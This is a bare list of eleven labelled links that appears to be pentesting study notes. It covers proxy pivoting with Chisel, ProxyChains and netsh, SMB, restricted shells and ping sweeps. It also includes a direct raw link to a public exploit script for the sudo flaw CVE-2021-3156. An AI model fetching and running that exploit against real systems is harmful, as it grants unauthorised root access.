    medium - (”[https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29](https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29)”)
    
    medium - (”[https://medium.com/swlh/proxying-like-a-pro-cccdc177b081#:~:text=ProxyChains is a tool that forces any TCP connection made,program through a proxy server](https://medium.com/swlh/proxying-like-a-pro-cccdc177b081#:~:text=ProxyChains%20is%20a%20tool%20that%20forces%20any%20TCP%20connection%20made,program%20through%20a%20proxy%20server).”)
    
    cloudflare - (”[https://www.cloudflare.com/es-es/learning/performance/what-is-http3/](https://www.cloudflare.com/es-es/learning/performance/what-is-http3/)”)
    
    w3schools - (”[https://www.w3schools.com/sql/sql_update.asp](https://www.w3schools.com/sql/sql_update.asp)”)
    
    github - (”[https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)”)
    
    github - (”[https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py](https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py)”)
    
    tecadmin - (”[https://tecadmin.net/use-virtualenv-with-python2/](https://tecadmin.net/use-virtualenv-with-python2/)”)
    
    makeuseof - (”[https://www.makeuseof.com/what-is-smb-protocol-and-what-are-its-risks/](https://www.makeuseof.com/what-is-smb-protocol-and-what-are-its-risks/)”)
    
    stackoverflow - (”[https://stackoverflow.com/questions/13713318/ping-all-addresses-in-network-windows](https://stackoverflow.com/questions/13713318/ping-all-addresses-in-network-windows)”)
    
    gnu - (”[https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html)”)
    
    deephacking - (”[https://deephacking.tech/pivoting-con-netsh/](https://deephacking.tech/pivoting-con-netsh/)”)
